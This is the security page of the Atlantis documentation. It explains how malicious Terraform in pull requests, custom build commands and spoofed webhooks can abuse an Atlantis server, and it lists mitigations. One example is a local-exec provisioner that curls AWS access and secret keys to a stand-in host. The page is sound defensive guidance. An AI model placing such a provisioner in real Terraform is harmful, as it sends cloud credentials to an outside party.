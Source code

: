 # Security
[[toc]]
## Exploits
Because you usually run Atlantis on a server with credentials that allow access to your infrastructure it's important that you deploy Atlantis securely.

Atlantis could be exploited by
* An attacker submitting a pull request that contains a malicious Terraform file that
  uses a malicious provider or an [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
  that Atlantis then runs `terraform plan` on (which it does automatically unless you've turned off automatic plans).
* Running `terraform apply` on a malicious Terraform file with [local-exec](https://www.terraform.io/docs/provisioners/local-exec.html)
    ```tf
    resource "null_resource" "null" {
      provisioner "local-exec" {
        command = "curl https://cred-stealer.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
      }
    }
    ```
* Running malicious custom build commands specified in an `atlantis.yaml` file. Atlantis uses the `atlantis.yaml` file from the pull request branch, **not** `master`.
* Someone adding `atlantis plan/apply` comments on your valid pull requests causing terraform to run when you don't want it to.

## Bitbucket Cloud (bitbucket.org)
::: danger
Bitbucket Cloud does not support webhook secrets. This could allow attackers to spoof requests from Bitbucket. Ensure you are allowing only Bitbucket IPs.
:::
Bitbucket Cloud doesn't support webhook secrets. This means that an attacker could
make fake requests to Atlantis that look like they're coming from Bitbucket.

If you are specifying `--repo-allowlist` then they could only fake requests pertaining
to those repos so the most damage they could do would be to plan/apply on your
own repos.

To prevent this, allowlist [Bitbucket's IP addresses](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html)
 (see Outbound IPv4 addresses).

## Mitigations
### Don't Use On Public Repos
Because anyone can comment on public pull requests, even with all the security mitigations available, it's still dangerous to run Atlantis on public repos without proper configuration of the security settings.

### Don't Use `--allow-fork-prs`
If you're running on a public repo (which isn't recommended, see above) you shouldn't set `--allow-fork-prs` (defaults to false)
because anyone can open up a pull request from their fork to your repo.

### `--repo-allowlist`
Atlantis requires you to specify a allowlist of repositories it will accept webhooks from via the `--repo-allowlist` flag.
For example:
* Specific repositories: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Your whole organization: `--repo-allowlist=github.com/runatlantis/*`
* Every repository in your GitHub Enterprise install: `--repo-allowlist=github.yourcompany.com/*`
* All repositories: `--repo-allowlist=*`. Useful for when you're in a protected network but dangerous without also setting a webhook secret.

This flag ensures your Atlantis install isn't being used with repositories you don't control. See `atlantis server --help` for more details.

### Protect Terraform Planning
If attackers submitting pull requests with malicious Terraform code is in your threat model
then you must be aware that `terraform apply` approvals are not enough. It is possible
to run malicious code in a `terraform plan` using the [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
or by specifying a malicious provider. This code could then exfiltrate your credentials.

To prevent this, you could:
1. Bake providers into the Atlantis image or host and deny egress in production.
1. Implement the provider registry protocol internally and deny public egress, that way you control who has write access to the registry.
1. Modify your [server-side repo configuration](https://www.runatlantis.io/docs/server-side-repo-config.html)'s `plan` step to validate against the
   use of disallowed providers or data sources or PRs from not allowed users. You could also add in extra validation at this point, e.g.
   requiring a "thumbs-up" on the PR before allowing the `plan` to continue. Conftest could be of use here.

### `--var-file-allowlist`
The files on your Atlantis install may be accessible as [variable definition files](https://www.terraform.io/language/values/variables#variable-definitions-tfvars-files)
from pull requests by adding  
`atlantis plan -- -var-file=/path/to/file` comments. To mitigate this security risk, Atlantis has limited such access
only to the files allowlisted by the `--var-file-allowlist` flag. If this argument is not provided, it defaults to
Atlantis' data directory.

### Webhook Secrets
Atlantis should be run with Webhook secrets set via the `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` environment variables.
Even with the `--repo-allowlist` flag set, without a webhook secret, attackers could make requests to Atlantis posing as a repository that is allowlisted.
Webhook secrets ensure that the webhook requests are actually coming from your VCS provider (GitHub or GitLab).

:::tip Tip
If you are using Azure DevOps, instead of webhook secrets add a [basic username and password](#azure devops basic authentication)
:::

### Azure DevOps Basic Authentication
Azure DevOps supports sending a basic authentication header in all webhook events. This requires using an HTTPS URL for your webhook location.

### SSL/HTTPS
If you're using webhook secrets but your traffic is over HTTP then the webhook secrets
could be stolen. Enable SSL/HTTPS using the `--ssl-cert-file` and `--ssl-key-file`
flags.

### Enable Authentication on Atlantis Web Server
It is very recommended to enable authentication in the web service. Enable BasicAuth using the `--web-basic-auth=true` and setup a username and a password using `--web-username=yourUsername` and `--web-password=yourPassword` flags.

You can also pass these as environment variables `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` and `ATLANTIS_WEB_PASSWORD=yourPassword`. 

:::tip Tip
We do encourage the usage of complex passwords in order to prevent basic bruteforcing attacks.
:::
